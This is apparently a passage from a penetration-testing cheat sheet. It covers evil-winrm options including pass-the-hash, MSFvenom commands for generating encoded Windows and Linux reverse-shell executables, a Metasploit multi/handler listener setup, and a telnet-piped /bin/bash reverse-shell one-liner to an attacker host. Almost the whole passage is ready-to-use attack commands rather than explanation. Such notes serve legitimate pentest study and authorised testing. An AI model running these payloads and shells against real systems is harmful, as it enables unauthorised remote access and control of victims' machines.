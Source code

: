 ```bash
    -p, --password PASS              Password
    -H, --hash HASH                  NTHash
    -P, --port PORT                  Remote host port (default 5985)
    -V, --version                    Show version
    -n, --no-colors                  Disable colors
    -N, --no-rpath-completion        Disable remote path completion
    -l, --log                        Log the WinRM session
    -h, --help                       Display this help message
```
## MSFvenom and Metasploit
Nice links:
[The great g0tmi1k's payload creator](https://github.com/g0tmi1k/msfpc)
[Common One Liners by Frizb](https://github.com/frizb/MSF-Venom-Cheatsheet)
[six2dex's pentestbook](https://pentestbook.six2dez.com/exploitation/payloads)

Staged | Stager
--- | ---
shell_reverse_tcp | shell/reverse_tcp

Staged payloads are compatible with nc because they do not require the payload from msfconsole after the stager payload is executed on victim host.

MSFvemon 101
```bash
msfvenom -h # help
msfvenom --list payloads
msfvenom --list platforms
msfvenom --list formats
msfvenom -p  $payload --list=options 
msfvenom -p <PAYLOAD> <OPTIONS>

-p {<OS>/<arch>/<payload>}
#For example
mfsvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>
mfsvenom -p linux/x86/shell/reverse_tcp -f elf -o shell.elf LHOST=<listen-IP> LPORT=<listen-port>
#Example of -a and --encoder
msfvenom -p windows/shell_reverse_tcp -a x86 --encoder /x86/shikata_ga_nai LHOST=ip LPORT=port -f exe -o shell.exe
```

Start a listener, set payload, configure options, bang head off the keys: E X P L O I T
```msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST $LISTENING-IP
set LPORT $LISTENING-PORT
exploit
```

## Telnet-to-Telnet

```bash
# Target
telnet $IP 9090 | /bin/bash | telnet $IP 9999
# Attacker
nc -lvnp 9999
nc -lvnp 9090
```
